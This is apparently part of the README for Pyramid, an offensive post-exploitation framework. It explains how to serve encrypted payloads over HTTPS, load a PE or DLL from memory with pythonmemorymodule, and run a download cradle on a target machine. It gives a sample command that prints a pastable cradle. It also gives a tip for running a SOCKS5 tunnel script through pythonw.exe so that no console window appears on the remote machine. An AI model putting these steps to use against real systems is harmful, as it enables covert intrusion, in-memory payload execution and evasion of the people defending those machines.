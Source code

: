  8. **pythonmemorymodule** script import [PythonMemoryModule](https://github.com/rkbennett/PythonMemoryModule) to load a dll from memory.


# Usage


#### Starting the server

`git clone https://github.com/naksyn/Pyramid`

Generate SSL certificates for HTTP Server:

`openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365`

If you want to use your own signed SSL certificate be sure to:
 1. use pem format
 2. rename the files with key.pem and cert.pem
 3. place both files into the Server folder.

#### Configuring the module

As an example, if you want to use pythonmemorymodule with Pyramid, put your payload in the **Delivery_files** folder, then open pythonmemorymodule.py and configure the needed parameters in the top of the script, such as the name of the payload file and the procedure you want to call after the PE has been loaded. 


#### Unzip embeddable package and execute the download cradle on target

Once the Pyramid server is running and the Base script is ready you can set the variable `pyramid_module` in  **Agent/cradle.py** file and execute it on the target. 
The cradle is built to be run with python standard libraries.

#### Example

Example of running Pyramid HTTP Server using SSL certificate providing Basic Authentication, encrypting delivery files using ChaCha and auto-generating server configuration in modules and printing a pastable cradle for pythonmemorymodule:

```python
python3 pyramid.py -p 443 -ssl -u testuser -pass Sup3rP4ss! -enc "chacha20" -passenc "TestPass1" -server "192.168.1.2" -generate -setcradle pythonmemorymodule.py
```

Upon startup pyramid.py will parse its own folder structure to look for key.pem, cert.pem and will deliver files from Server folder.


https://github.com/naksyn/Pyramid/assets/59816245/4fbc997e-af2d-4ead-881b-ee108c91d195


#### Tip for executing Pyramid without visible prompt

To execute Pyramid without bringing up a visible python.exe prompt you can leverage pythonw.exe that won't open a console window upon execution and is contained in the very same Windows Embeddable Package.
The following picture illustrate an example usage of pythonw.exe to execute base-tunnel-socks5.py on a remote machine without opening a python.exe console window.
